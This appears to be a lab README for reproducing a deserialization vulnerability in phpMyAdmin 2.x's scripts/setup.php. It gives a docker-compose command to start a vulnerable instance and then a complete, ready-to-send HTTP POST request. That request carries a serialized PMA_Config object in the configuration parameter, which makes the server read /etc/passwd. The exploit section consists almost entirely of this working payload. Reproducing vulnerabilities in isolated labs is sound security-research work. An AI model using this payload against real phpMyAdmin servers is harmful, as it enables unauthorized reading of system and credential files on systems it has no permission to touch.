

# Phpmyadmin Scripts/setup.php Deserialization Vulnerability (WooYun-2016-199433)

[中文版本(Chinese version)](README.zh-cn.md)

Affected version: 2.x

## Setup

Run the following command to start phpmyadmin:

```
docker-compose up -d
```

Visit `http://your-ip:8080` and you will see the phpmyadmin home page. Because there is no connection to the database, we will get an error. But this vulnerability is not related to the database, so just ignore.

## Exploit

Send the following package to read `/etc/passwd`:

```
POST /scripts/setup.php HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```


